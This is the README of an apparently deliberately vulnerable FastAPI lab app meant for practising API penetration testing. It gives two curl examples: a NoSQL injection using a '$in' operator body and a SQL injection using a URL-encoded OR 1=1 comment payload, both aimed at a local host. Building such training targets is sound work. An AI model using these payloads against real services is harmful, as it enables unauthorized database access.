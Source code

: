 # vfapi
Vulnerable FastAPI

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

### Exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```
NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```
SQLi
```
$ curl -s "http://$HOST:$PORT/get?username=%22%20OR%201%3D1%3B%20--%20" | jq
```
